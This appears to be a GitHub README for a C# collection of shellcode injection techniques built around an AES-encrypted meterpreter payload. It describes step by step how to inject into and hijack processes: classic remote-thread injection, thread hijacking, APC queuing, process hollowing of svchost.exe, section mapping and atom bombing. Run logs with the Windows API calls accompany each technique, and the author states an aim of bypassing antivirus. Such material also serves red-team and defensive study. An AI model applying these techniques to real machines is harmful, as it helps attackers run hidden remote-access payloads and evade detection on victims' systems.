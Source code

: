 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

If you do use any of the code in these repositories **keep it legal!**

## Assembly Injection
You can use a [PowerShell assembly injection technique](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/assembly-injection.ps1) if you want to avoid writing .Net binaries to disk.

## Shellcode Runner
[ShellcodeRunner.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure the shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the page where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Local Thread Hijacking
[LocalThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/LocalThreadHijack.cs) : This technique creates a new local thread in a suspended state, we then hijack the thread, sets the instruction pointer (RIP) to our injected code and then resume the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.LocalThreadHijack
[+] CreateThread() - thread handle: 0x374
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x270800418E0
[+] GetThreadContext() - thread handle: 0x374
[+] RIP is: 0x7FFA79EE2630
[+] SetThreadContext(), RIP assigned: 0x270800418E0
[+] ResumeThread() - thread handle: 0x374
```

## Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls SleepEx, SignalObjectAndWait, MsgWaitForMultipleObjectsEx, WaitForMultipleObjectsEx, or WaitForSingleObjectEx) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Atom Bombing
[AtomBomb.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/AtomBomb.cs) : This technique is interesting in how we write shellcode to the target process. We use the Global Atom Table which allows us to write null terminated strings with a maximum size of 255 bytes. We find a code cave to write our shellcode to, then use APC calls to trigger the target process to read the Atom Names into memory. Finally we use a couple of APC calls to change the memory protection of the target and execute the shellcode.

My code differs from the original [Atom Bombing](https://www.fortinet.com/blog/threat-research/atombombing-brand-new-code-injection-technique-for-windows) technique, written in C/C++. First, I chain Atom Names together, using multiple APCs, to form a shellcode of larger than 255 bytes. I don't use ROP chains to force the target process to call `VirtualProtect` and then execute the code, I use the APC queue.

This code requires the main thread to enter an alertable state in order to execute the APC queue and I do not clean up after the shellcode execution, the target process becomes unstable. I plan to improve on this technique (by seraching for alertable threads and cleaning up afterwards), but as a PoC it works well.

```
[+] Found process: 14140
[+] Using technique: ShellcodeInjectionTechniques.AtomBomb
[+] Found thread: 5940
[+] OpenThread() - thread handle: 0xD0
[+] FindWritablePages() - number found: 2
[+] Found a suitable code cave - pWritable: 0x2CE60031
[+] GetProcAddress() - pGlobalGetAtomNameW: 0x7FFE20EB2680
[+] GlobalAddAtom() - ATOM: 0xC091
[+] NtQueueApcThread() - pWritable: 0x2CE60031
[+] GlobalAddAtom() - ATOM: 0xC06F
[+] NtQueueApcThread() - pWritable: 0x2CE600F9
[+] GlobalAddAtom() - ATOM: 0xC080
[+] NtQueueApcThread() - pWritable: 0x2CE601C1
[+] GlobalAddAtom() - ATOM: 0xC088
[+] NtQueueApcThread() - pWritable: 0x2CE60289
[+] GlobalAddAtom() - ATOM: 0xC084
[+] NtQueueApcThread() - pWritable: 0x2CE60351
[+] GetProcAddress() - pVirtualProtect: 0x7FFE20EBBC70
[+] NtQueueApcThread() PAGE_EXECUTE_READWRITE - codeCave: 0x2CE60031
[+] QueueUserAPC() - codeCave: 0x2CE60031
```

## Notes
The Atom Bombing technique places null terminated strings in the Global Atom Table, this means you must use shellcode that doesn't have 0x00 characters in it.

Remember you will need to start a process to inject to, except when using the shellcode runner, local thread hijack technique or the process hollowing technique (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner, local thread hijack technique or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
